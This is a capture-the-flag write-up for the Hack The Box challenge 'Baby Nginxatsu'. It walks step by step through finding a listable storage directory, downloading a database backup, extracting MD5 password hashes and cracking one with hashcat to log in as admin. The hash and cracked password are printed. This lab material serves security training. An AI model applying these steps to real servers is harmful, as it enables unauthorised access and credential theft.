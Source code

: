 # [Baby Nginxatsu](https://app.hackthebox.eu/challenges/180)

---  

__Title__: Baby Nginxatsu
__Description__: A web site that allow user to create Nginx config
__summary__: We were able to retrieve the admin password from a SQLite backup left on the server
__Tags__:  nginx, php, sqlite, hashcat
__host__: 178.128.175.172:32194


---  


## Enumeration

### Initial

The first thing we did was to use the application (just like any user)

- Created an account
- Created few config files

### Platform information

```bash
$ whatweb 178.128.175.172:32194

http://178.128.175.172:32194 [302 Found] Cookies[XSRF-TOKEN,laravel_session], Country[GREECE][GR], HTML5, HTTPServer[nginx], HttpOnly[laravel_session], IP[178.128.175.172], Laravel, Meta-Refresh-Redirect[http://178.128.175.172:32194/auth/login], PHP[7.4.12], RedirectLocation[http://178.128.175.172:32194/auth/login], Title[Redirecting to http://178.128.175.172:32194/auth/login], X-Powered-By[PHP/7.4.12], nginx

http://178.128.175.172:32194/auth/login [200 OK] Cookies[XSRF-TOKEN,laravel_session], Country[GREECE][GR], HTTPServer[nginx], HttpOnly[laravel_session], IP[178.128.175.172], Laravel, Meta-Author[makelarisjr, makelaris], PHP[7.4.12], PasswordField[password], Title[nginxatsu], X-Powered-By[PHP/7.4.12], nginx
```
Running whatweb against the application we managed to get some information about the platform: Laravel (PHP 7.4.12)

### Nginx Config generator

The application generates Nginx configs that can be viewed using the id of the config E.g: http://178.128.175.172:32194/config/51

#### Configs storage

One interesting thing is that we can see the raw config E.g http://178.128.175.172:32194/storage/nginx_5ffb34aac767f.conf

visiting the folder http://178.128.175.172:32194/storage/ we can see that the server list all the available configs.

We can also see an interesting file: `v1_db_backup_1604123342.tar.gz`

```bash
$ wget http://178.128.175.172:32194/storage/v1_db_backup_1604123342.tar.gz

--2021-01-10 17:31:20--  http://178.128.175.172:32194/storage/v1_db_backup_1604123342.tar.gz
Connecting to 178.128.175.172:32194... connected.
HTTP request sent, awaiting response... 200 OK
Length: 42496 (42K) [text/plain]
Saving to: ‘v1_db_backup_1604123342.tar.gz’

v1_db_backup_1604123342.t 100%[===================================>]  41.50K  --.-KB/s    in 0.06s   

2021-01-10 17:31:20 (691 KB/s) - ‘v1_db_backup_1604123342.tar.gz’ saved [42496/42496]
```

We are dealing with a tar file

```bash
$ file v1_db_backup_1604123342.tar.gz 
v1_db_backup_1604123342.tar.gz: POSIX tar archive (GNU)
```

Let's extract everything

```bash
$ tar -tvf v1_db_backup_1604123342.tar.gz
-rw-r--r-- www/www       40960 2021-01-10 16:50 database/database.sqlite
```

```bash
$ tar -xvf v1_db_backup_1604123342.tar.gz
database/database.sqlite
```

Let's load the file in `DB Browser for SQLite`

We have been able to retrieve few users (and their passwords hashes) from the DB.

### Password cracking

The password hashes are in MD5 

```bash
$ hash-identifier e7816e9a10590b1e33b87ec2fa65e6cd
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
````
Let's store the passwords hashes in a file 

```bash
$ cat users 

e7816e9a10590b1e33b87ec2fa65e6cd
96daf5684cfda2dd61750c3719f5fb19
ecbbcb87173b6501ef44184c58d380a7
```

Using Hashcat we have retrieved a password

```bash
$ hashcat -m 0 passwords /usr/share/wordlists/rockyou.txt       
hashcat (v6.1.1) starting...

...
```

```bash
$ hashcat -m 0 passwords /usr/share/wordlists/rockyou.txt --show
e7816e9a10590b1e33b87ec2fa65e6cd:adminadmin1
```

At this point we have `jr` password `adminadmin1`


Using those information we manage to logged in to `jr` account and because he was the admin, we got the flag.
